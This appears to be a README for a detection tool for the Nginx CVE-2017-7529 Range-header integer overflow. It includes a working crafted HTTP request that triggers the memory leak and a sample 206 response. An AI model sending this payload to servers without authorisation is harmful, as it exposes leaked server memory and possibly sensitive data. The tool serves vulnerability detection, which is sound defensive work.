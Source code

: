 # Cve_Finder_2017-7529
The tool is used to detect whether a server is vulnerable to Nginx Remote Integer Overflow CVE (2017-7529)

## Nginix Remote Integer Overflow

Nginx CVE-2017-7529 Remote Integer Overflow Vulnerability. Description: Nginx versions since 0.5. 6 up to and including 1.13. 2 are vulnerable to integer overflow vulnerability in nginx range filter module resulting into leak of potentially sensitive information triggered by specially crafted request.The attacker sends a specially crafted header Range in HTTP Request which causes the vulnerable Nginx Server to overflow memory bytes of server or leaks its content.

The response code for detecting Nginx Remote Overflow is 206 and Partial Content is recieved in HTTP status line. 

### Request

GET /domain HTTP/1.1
Accept-Encoding: identity
Range: bytes=-17208,-9223372036854758792
Host: 127.0.0.1:8000
Connection: close
User-Agent: Python-urllib/2.7

## Response

HTTP/1.1 206 Partial Content
Server: nginx/1.13.1
Date: Mon, 21 May 2020 06:51:52 GMT
Content-Type: multipart/byteranges; boundary=00000000000000000002
Connection: close
Last-Modified: Mon, 17 Jul 2017 02:19:08 GMT
ETag: "40c9-5547a060fdf00"
X-Proxy-Cache: HIT
--00000000000000000002
Content-Type: text/html
Content-Range: bytes -623-16584/16585
